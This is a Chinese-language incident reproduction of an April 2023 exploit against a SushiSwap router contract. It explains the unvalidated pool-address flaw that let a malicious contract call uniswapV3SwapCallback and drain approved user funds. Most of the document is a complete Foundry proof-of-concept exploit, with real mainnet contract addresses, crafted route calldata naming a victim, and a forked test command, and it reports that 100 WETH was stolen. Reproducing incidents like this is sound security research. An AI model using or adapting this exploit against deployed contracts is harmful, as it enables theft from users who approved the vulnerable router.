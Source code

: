 # SUSHI攻击复现

## 1.参考资料

https://phalcon.xyz/tx/eth/0x04b166e7b4ab5105a8e9c85f08f6346de1c66368687215b0e0b58d6e5002bc32

漏洞较为简单，通过上述交易能够知道漏洞成因，今天中午发生的攻击

## 2.漏洞成因

https://twitter.com/SlowMist_Team/status/1644936375924584449

​	sushi没有校验pool地址，且可外部传入pool的地址，攻击者可以把恶意合约的地址传进来当作pool地址，然后Router会调用恶意合约的swap函数，恶意合约的swap函数再调用Router的uniswapV3SwapCallback函数，这个函数可以将授权过的用户资金转入msg.sender，但这个时候的msg.sender是恶意合约，攻击者成功盗取用户资金。漏洞合约仅部署了四天，未造成太大范围的资金损失。

利用过程：

1.恶意合约调用processRoute函数，传入的route包含了恶意合约本身的地址

![image-20230409203900123](sushi-poc.assets/image-20230409203900123.png)

![image-20230409204059577](sushi-poc.assets/image-20230409204059577.png)

2.processRoute函数调用恶意合约的swap函数，恶意合约的swap参数再次调用漏洞合约的uniswapV3SwapCallback函数，构造的data参数包含了WETH代币的地址，会执行最后一行代码，成功转账

![image-20230409203927049](sushi-poc.assets/image-20230409203927049.png)

![image-20230409204330252](sushi-poc.assets/image-20230409204330252.png)

## 3.利用POC

当前forge版本可以复现，将下列代码复制到Counter.t.sol里边即可

forge test -vvvv --fork-url [your own RPC] --fork-block-number 17006100

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "../src/Counter.sol";

interface Sushi{
    function processRoute(
    address tokenIn,
    uint256 amountIn,
    address tokenOut,
    uint256 amountOutMin,
    address to,
    bytes memory route
  ) external payable  returns (uint256 amountOut);

  function uniswapV3SwapCallback(
    int256 amount0Delta,
    int256 amount1Delta,
    bytes calldata data
  ) external;
}

interface WETH{
    function approve(address spender, uint value) external;
    function balanceOf(address _owner) external returns (uint balance);
    function transfer(address _to, uint _value) external;
}



contract ContractTest is Test{
    function setUp() public {

    }

// 4830262616
    address sushiRoute = address(0x044b75f554b886A065b9567891e45c79542d7357);
    address weth = address(0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE);
    address weth2 = address(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2);

    function swap(
            address recipient,
            bool zeroForOne,
            int256 amountSpecified,
            uint160 sqrtPriceLimitX96,
            bytes calldata data
    ) external returns (int256 amount0, int256 amount1){
        Sushi(address(sushiRoute)).uniswapV3SwapCallback(1000000000000000000,0,hex"000000000000000000000000c02aaa39b223fe8d0a0e5c4f27ead9083c756cc200000000000000000000000031d3243cfb54b34fc9c73e1cb1137124bd6b13e1");
        return (0,0);
    }
    function testattack() public {
        console.log("before: ",WETH(address(weth2)).balanceOf(address(this)));
        bytes memory data = hex"01514910771af9ca656af840dff83e8264ecf986ca010000017fa9385be102ac3eac297483dd6233d62b3e1496000000000000000000000000000000000000000000";
        Sushi(address(sushiRoute)).processRoute(address(weth),0,address(weth),0,address(0),data);
        console.log("after: ",WETH(address(weth2)).balanceOf(address(this)));
    }

}
```



## 4.复现结果

成功将受害者的100WETH转到攻击合约中。

![image-20230409203802175](sushi-poc.assets/image-20230409203802175.png)



